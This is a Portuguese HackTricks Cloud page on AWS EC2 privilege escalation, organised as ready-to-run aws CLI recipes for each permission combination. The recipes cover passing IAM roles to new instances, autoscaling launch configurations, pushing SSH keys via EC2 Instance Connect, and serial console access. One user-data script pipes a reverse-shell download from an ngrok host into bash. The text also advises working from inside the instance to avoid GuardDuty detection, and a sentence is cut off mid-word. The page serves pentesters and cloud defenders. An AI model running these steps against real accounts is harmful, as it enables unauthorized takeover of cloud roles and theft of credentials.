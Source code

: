 # AWS - EC2 Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## EC2

Para mais **informações sobre EC2**, confira:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

Um invasor com as permissões `iam:PassRole` e `ec2:RunInstances` pode **criar uma nova instância EC2** à qual terá acesso ao sistema operacional e **passar um perfil de instância EC2 existente para ela**. Em seguida, ele pode fazer login na instância e **solicitar as chaves AWS associadas aos metadados da instância EC2**, o que lhe dá acesso a todas as permissões que o perfil de instância associado/role de serviço tem.

* **Acesso via SSH**

Você pode executar uma nova instância usando uma **chave ssh criada** (`--key-name`) e, em seguida, fazer ssh nela (se você quiser criar uma nova, talvez precise ter a permissão `ec2:CreateKeyPair`).

```bash
aws ec2 run-instances --image-id ami-a4dc46db --instance-type t2.micro \
    --iam-instance-profile Name=iam-full-access-ip --key-name my_ssh_key \
    --security-group-ids sg-123456
```

* **Acesso via rev shell em user data**

Você pode executar uma nova instância usando um **user data** (`--user-data`) que enviará uma **rev shell** para você. Você não precisa especificar o grupo de segurança dessa maneira.

```bash
echo '#!/bin/bash
curl https://reverse-shell.sh/4.tcp.ngrok.io:17031 | bash' > /tmp/rev.sh

aws ec2 run-instances --image-id ami-0c1bc246476a5572b --instance-type t2.micro \
   --iam-instance-profile Name=EC2-CloudWatch-Agent-Role \
   --count 1 \
   --user-data "file:///tmp/rev.sh"
```

Uma observação importante a ser feita sobre esse ataque é que um **indicador óbvio de comprometimento** é quando as **credenciais do perfil da instância EC2 são usadas fora da instância específica**. Até o AWS GuardDuty dispara nisso (https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_finding-types.html#unauthorized11), portanto, não é uma jogada inteligente exfiltrar essas credenciais e executá-las localmente, mas sim **acessar a API da AWS de dentro daquela instância EC2**.

**Impacto potencial:** Privesc direto para qualquer papel EC2 anexado a perfis de instância existentes.

#### Privesc para ECS

Com esse conjunto de permissões, você também pode **criar uma instância EC2 e registrá-la dentro de um cluster ECS**. Dessa forma, os **serviços ECS** serão **executados** dentro da **instância EC2** onde você tem acesso e, em seguida, você pode penetrar nesses serviços (contêineres docker) e **roubar as funções ECS anexadas**.

```bash
aws ec2 run-instances \
    --image-id ami-07fde2ae86109a2af \
    --instance-type t2.micro \
    --iam-instance-profile <ECS_role> \
    --count 1 --key-name pwned \
    --user-data "file:///tmp/asd.sh" 

# Certifique-se de usar uma AMI otimizada para ECS, pois ela já tem tudo instalado para ECS (amzn2-ami-ecs-hvm-2.0.20210520-x86_64-ebs)
# O perfil da instância EC2 precisa de acesso básico ao ECS
# O conteúdo do user data é:
#!/bin/bash
echo ECS_CLUSTER=<cluster-name> >> /etc/ecs/ecs.config;echo ECS_BACKEND_HOST= >> /etc/ecs/ecs.config;
```

Para aprender como **forçar os serviços ECS a serem executados** nesta nova instância EC2, confira:

{% content-ref url="aws-ecs-privesc.md" %}
[aws-ecs-privesc.md](aws-ecs-privesc.md)
{% endcontent-ref %}

Se você **não pode criar uma nova instância** mas tem a permissão `ecs:RegisterContainerInstance`, pode ser capaz de registrar a instância dentro do cluster e realizar o ataque comentado.

**Impact
### `autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`

Um atacante com as permissões **`autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`** pode **criar uma Configuração de Lançamento** com uma **Função IAM** e um **rev shell** dentro dos **dados do usuário**, em seguida, **criar um grupo de escalonamento automático** a partir dessa configuração e aguardar o rev shell para **roubar a Função IAM**.

```bash
aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-launch-configuration \
   --launch-configuration-name bad_config \
   --image-id ami-0c1bc246476a5572b \
   --instance-type t3.micro \
   --iam-instance-profile EC2-CloudWatch-Agent-Role \
   --user-data "$REV"

aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-auto-scaling-group \
   --auto-scaling-group-name bad_auto \
   --min-size 1 --max-size 1 \
   --launch-configuration-name bad_config \
   --desired-capacity 1 \
   --vpc-zone-identifier "subnet-e282f9b8"
```

**Impacto Potencial:** Privesc direto para uma função EC2 diferente.

### `!autoscaling`

O conjunto de permissões **`ec2:CreateLaunchTemplate`** e **`autoscaling:CreateAutoScalingGroup`** **não são suficientes para escalar** privilégios para uma função IAM, porque para anexar a função especificada na Configuração de Lançamento ou no Modelo de Lançamento, **você precisa das permissões `iam:PassRole` e `ec2:RunInstances`** (que é um privesc conhecido).

### `ec2-instance-connect:SendSSHPublicKey`

Um atacante com a permissão **`ec2-instance-connect:SendSSHPublicKey`** pode adicionar uma chave ssh a um usuário e usá-la para acessá-la (se ele tiver acesso ssh à instância) ou para escalar privilégios.

```bash
aws ec2-instance-connect send-ssh-public-key \
   --instance-id "$INSTANCE_ID" \
   --instance-os-user "ec2-user" \
   --ssh-public-key "file://$PUBK_PATH"
```

**Impacto Potencial:** Privesc direto para as funções IAM EC2 anexadas às instâncias em execução.

### `ec2-instance-connect:SendSerialConsoleSSHPublicKey`

Um atacante com a permissão **`ec2-instance-connect:SendSerialConsoleSSHPublicKey`** pode **adicionar uma chave ssh a uma conexão serial**. Se a serial não estiver habilitada, o atacante precisa da permissão **`ec2:EnableSerialConsoleAccess` para habilitá-la**.

Para se conectar à porta serial, você também **precisa saber o nome de usuário e a senha de um usuário** dentro da máquina.

```bash
aws ec2 enable-serial-console-access

aws ec2-instance-connect send-serial-console-ssh-public-key \
   --instance-id "$INSTANCE_ID" \
   --serial-port 0 \
   --region "eu-west-1" \
   --ssh-public-key "file://$PUBK_PATH"

ssh -i /tmp/priv $INSTANCE_ID.port0@serial-console.ec2-instance-connect.eu-west-1.aws
```

Dessa forma, não é tão útil para privesc, pois você precisa saber um nome de usuário e uma senha para explorá-lo.

**Impacto Potencial:** (Altamente improvável) Privesc direto para as funções IAM EC2 anexadas às instâncias em execução.

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>